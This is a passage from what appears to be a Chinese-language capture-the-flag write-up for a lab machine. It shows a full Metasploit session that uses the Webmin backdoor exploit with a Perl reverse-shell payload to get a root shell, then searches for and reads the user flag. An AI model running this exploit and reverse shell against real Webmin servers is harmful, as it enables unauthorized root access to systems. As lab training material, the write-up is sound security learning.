 有了一些关于 Webmin 漏洞利用的背景知识，我现在可以继续利用系统获得一个反向外壳。我启动了 Metasploit，然后开始配置和启动这个漏洞:

```
**┌──(dna㉿deniers)-[~/attackerkb]
└─$ sudo msfconsole**

       =[ metasploit v6.1.39-dev                          ]
+ -- --=[ 2214 exploits - 1171 auxiliary - 396 post       ]
+ -- --=[ 618 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Enable HTTP request and response logging 
with set HttpTrace true

**msf6 > use exploit/linux/http/webmin_backdoor**
[*] Using configured payload cmd/unix/reverse_perl
**msf6 exploit(linux/http/webmin_backdoor) > set RHOST attackerkb.thm**
RHOST => attackerkb.thm
**msf6 exploit(linux/http/webmin_backdoor) > set LHOST attacker.thm**
LHOST => attacker.thm
**msf6 exploit(linux/http/webmin_backdoor) > set SSL True**
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
**msf6 exploit(linux/http/webmin_backdoor) > exploit**

[*] Started reverse TCP handler on attacker.thm:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (attacker.thm:4444 -> attackerkb.thm:35440 ) at [redacted] -0500

**#**
```

优秀的

## 后期开发

现在我可以去找旗子了。我将从使用`find`命令搜索用户标志开始:

```
[*] Command shell session 1 opened (attacker.thm:4444 -> attackerkb.thm:35440 ) at [redacted] -0500

**# find / -name user.txt && echo "Finished"**
/home/dark/user.txt
Finished
**# cat /home/dark/user.txt**
[redacted]
**#**
```

现在，我将继续获取根标志。我使用了`id`命令来查看我拥有什么样的特权，结果发现我拥有 root 权限！我不需要运行任何权限提升漏洞，因为我已经在目标系统中拥有最高权限！我可以转储旗帜:
